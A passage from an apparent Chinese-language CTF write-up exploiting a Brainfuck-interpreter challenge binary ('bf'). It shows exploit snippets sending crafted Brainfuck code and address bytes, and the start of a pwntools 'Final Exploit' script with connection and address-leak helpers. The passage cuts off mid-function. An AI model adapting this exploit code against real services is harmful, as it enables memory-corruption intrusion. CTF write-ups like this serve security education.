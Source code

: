 sh.recvuntil('want to continue?')
sh.send('y')

sh.recvuntil('enter your code:')
sh.sendline('+[&gt;.+],')
sh.send(p8((code_low_addr) &amp; 0xFF))
sh.send(p8((code_low_addr) &amp; 0xFF))
</code></pre>
</li>
<li>跳出循环即可获取`flag`。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-13-140049.png)
</li>
### <a class="reference-link" name="FInal%20Exploit"></a>FInal Exploit

⚠️：概率成功，因为有概率我们不能成功的触发`[`和`]`的漏洞。

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

bf=ELF('./bf', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./bf")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./bf")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
```